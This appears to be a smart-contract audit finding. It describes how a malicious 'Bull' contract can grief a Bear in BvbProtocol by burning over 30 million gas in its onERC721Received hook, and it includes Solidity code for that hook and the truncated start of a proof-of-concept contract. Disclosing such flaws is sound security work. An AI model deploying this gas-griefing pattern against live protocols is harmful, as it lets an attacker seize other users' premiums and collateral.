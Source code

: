 In the first test, the `maliciousBull1`  simply reverts and it doesnt affect the Bear in anyway. 

In the second test, the `maliciousBull2`  has a gas wasting operation, which uses up more than 30 million gas, which is the `gas limit` for a Block in Ethereum. 
```solidity
//gas wasting operation in maliciousBull2 contract
    function onERC721Received(
        address,
        address,
        uint256,
        bytes calldata
    ) external virtual returns (bytes4) {
        if (shouldBlockTransfer) {
            //use a lot of gas so that txn reverts
            for(uint i=0; i < 5000 ; i++) {  //this is enough to make sure the 30 million gas limit is breached
                blockTxn = i%2;  //storage writes
            } 
        }
        return BvbMaliciousBull2.onERC721Received.selector;
    }
```

Once the gas limit is reached, the call will revert, which means the code execution will start at the `catch` block and send the nft to the `BvbProtocol` contract.

## Impact

If the malicious Bull does manipulate his contract in such a way mentioned in the POC, the Bear is left with two options:
1. If the `premium`  and `collateral` is more valuable then the gas spent on `settleContract` and `loss on NFT`, then settle the contract anyway.
2. Otherwise ignore the Order, and just forget his `premium`. The Bull benefits in such a case as both the `premium`  and `collateral` will go to him.

## Code Snippet

This is the POC I wrote to prove the hack:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity >=0.8.4;

import {IERC20} from "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import {Base} from "../Base.t.sol";
import {BvbProtocol} from "src/BvbProtocol.sol";
import {ERC20} from "solmate/tokens/ERC20.sol";

//BvbMaliciousBull1 contract
contract BvbMaliciousBull1 {

    address public immutable bvb;

    bool public shouldBlockTransfer;

    constructor(address _bvb) {
        bvb = _bvb;
        shouldBlockTransfer = true;
    }

    function onERC721Received(
        address,
        address,
        uint256,
        bytes calldata
```